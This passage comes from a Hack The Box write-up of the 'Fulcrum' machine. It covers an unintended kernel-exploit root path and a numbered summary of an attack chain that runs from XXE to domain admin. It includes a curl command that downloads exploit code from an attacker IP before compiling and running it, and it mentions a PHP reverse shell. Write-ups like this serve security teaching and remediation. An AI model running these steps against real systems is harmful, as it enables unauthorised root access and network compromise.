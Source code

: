 
### 13. Unintended Privilege Escalation (Alternative Path)
- **Technique**: Kernel exploit for local privilege escalation
- **Details**:
  - Used `linpeas.sh` to identify potential kernel vulnerabilities on the Fulcrum server (Ubuntu Xenial 16.04).
  - Found and compiled an exploit (`exploit.c`) from a GitHub repository for Ubuntu 16.04 privilege escalation:
    ```bash
    curl http://[ATTACKER-IP]:80/exploit.c > exploit.c
    gcc exploit.c -o exploit
    chmod +x exploit
    ./exploit
    ```
  - Achieved root access on the Fulcrum server.
  - Mounted VMDK files to extract flags:
    ```bash
    modprobe nbd
    qemu-nbd -r -c /dev/nbd1 /var/lib/libvirt/images/dc.vmdk
    mount /dev/nbd1p1 /mnt
    ```
  - Found `root.txt` on the domain controller and `user.txt` in the `btables` directory on the file server.

---

### Summary of Key Techniques
1. **Nmap Scanning**: Identified open ports and services.
2. **Web Enumeration**: Discovered PHP files and potential vulnerabilities.
3. **Blind XXE**: Exploited API endpoint to read files and confirm vulnerabilities.
4. **Python Automation**: Streamlined XXE exploitation for file retrieval.
5. **SSRF to RFI**: Chained XXE to execute a PHP reverse shell.
6. **File System Enumeration**: Found PowerShell scripts and VM infrastructure.
7. **PowerShell Decryption**: Decrypted credentials for further access.
8. **WinRM Pivoting**: Accessed internal Windows servers via Ruby WinRM script.
9. **Active Directory Enumeration**: Used PowerView to identify active accounts and credentials.
10. **File Server Access**: Leveraged `btables` credentials for shell access.
11. **Netlogon Credential Harvesting**: Found domain admin credentials in scripts.
12. **Domain Controller Access**: Chained commands to gain domain admin access.
13. **Kernel Exploit (Unintended)**: Escalated to root and extracted flags from VMDK files.

This sequence reflects the complex, multi-stage attack path to compromise the Fulcrum machine, highlighting both the intended Active Directory exploitation chain and the unintended kernel exploit path.

## Security Gaps and Remediation

Below is a detailed analysis of the security gaps identified in the services and systems of the "Fulcrum" machine from Hack The Box, as described in the provided data. Each gap is associated with a specific service or system, and recommendations are provided for fixing these issues through source code or configuration changes. The gaps are organized by the affected service or system, with a focus on actionable fixes to prevent the exploited vulnerabilities.

---